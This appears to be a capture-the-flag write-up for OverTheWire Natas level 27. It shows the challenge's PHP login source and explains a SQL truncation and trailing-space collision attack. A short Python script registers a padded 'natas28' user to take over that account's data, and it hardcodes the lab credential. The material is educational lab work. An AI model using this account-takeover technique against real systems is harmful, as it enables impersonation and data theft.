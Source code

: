 # Writeup level 27
In this challenge we are greeted by a login form.

**Source Code**  
```php
<?

// morla / 10111
// database gets cleared every 5 min 


/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/


function checkCredentials($link,$usr,$pass){
 
    $user=mysql_real_escape_string($usr);
    $password=mysql_real_escape_string($pass);
    
    $query = "SELECT username from users where username='$user' and password='$password' ";
    $res = mysql_query($query, $link);
    if(mysql_num_rows($res) > 0){
        return True;
    }
    return False;
}


function validUser($link,$usr){
    
    $user=mysql_real_escape_string($usr);
    
    $query = "SELECT * from users where username='$user'";
    $res = mysql_query($query, $link);
    if($res) {
        if(mysql_num_rows($res) > 0) {
            return True;
        }
    }
    return False;
}


function dumpData($link,$usr){
    
    $user=mysql_real_escape_string($usr);
    
    $query = "SELECT * from users where username='$user'";
    $res = mysql_query($query, $link);
    if($res) {
        if(mysql_num_rows($res) > 0) {
            while ($row = mysql_fetch_assoc($res)) {
                // thanks to Gobo for reporting this bug!  
                //return print_r($row);
                return print_r($row,true);
            }
        }
    }
    return False;
}


function createUser($link, $usr, $pass){

    $user=mysql_real_escape_string($usr);
    $password=mysql_real_escape_string($pass);
    
    $query = "INSERT INTO users (username,password) values ('$user','$password')";
    $res = mysql_query($query, $link);
    if(mysql_affected_rows() > 0){
        return True;
    }
    return False;
}


if(array_key_exists("username", $_REQUEST) and array_key_exists("password", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas27', '<censored>');
    mysql_select_db('natas27', $link);
   

    if(validUser($link,$_REQUEST["username"])) {
        //user exists, check creds
        if(checkCredentials($link,$_REQUEST["username"],$_REQUEST["password"])){
            echo "Welcome " . htmlentities($_REQUEST["username"]) . "!<br>";
            echo "Here is your data:<br>";
            $data=dumpData($link,$_REQUEST["username"]);
            print htmlentities($data);
        }
        else{
            echo "Wrong password for user: " . htmlentities($_REQUEST["username"]) . "<br>";
        }        
    } 
    else {
        //user doesn't exist
        if(createUser($link,$_REQUEST["username"],$_REQUEST["password"])){ 
            echo "User " . htmlentities($_REQUEST["username"]) . " was created!";
        }
    }

    mysql_close($link);
} else {
?> 
```
As we can see in the source code, our input is getting sanitized by a function called **mysql_real_escape_string**. Googling that function and looking up some possible exploit, I can conclude that the way of exploiting that function won't work in this scenario. Altough there is one function that seems a bit weird (**dumpData**). It is weird to me because it prints an array, so my initial thought was what if I can manipulate that array by injecting another user called natas28 so it also gives me his data (which I obviously want). After trying for some time and reading abit into php I came to the conclusion that it won't work. So I started to look at the whole code again. I noticed that this time the table was created by using a size of 64 bytes for varchar and by reasearching I found out that when your input is longer than 64 bytes (in this case) then it will cut it off. So a String for instance:  
"A"*64 + "cutOff"
should look like that:  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcutOff  
But what mysql does when I use that as an input:  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
It cuts it off.  
So what if we have the following user:  
username: "user"  
password: "secret"  
The select query:  
```SQL
SELECT * FROM users WHERE username=user;  
```
Would obviously give us that user. But what if we create another user and his username is going to be "user   "(user+3spaces).  
The select query would actually return both users. 

**Exploit**  
Knowing this we can try to create a user called natas28 with a lot of spaces and some text which will get cutted anyway. This way we can create a unique user natas28 with our own password and that would gives us the password for natas28.

```python
import requests

def return_post_request(username, password):
	url = "http://natas27.natas.labs.overthewire.org/"
	auth = ("natas27", "55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ")
	data = {
		'username': username,
		'password': password
	}

	return requests.post(url, data=data, auth=auth)

username = "natas28" + (200*" " + "baldy")
password = "baldyspw"
#inject our own natas28 user with our password
r1 =return_post_request(username, password)
print(r1.text[760:])

username = "natas28"

r2 = return_post_request(username, password)
print(r2.text[760:])
```
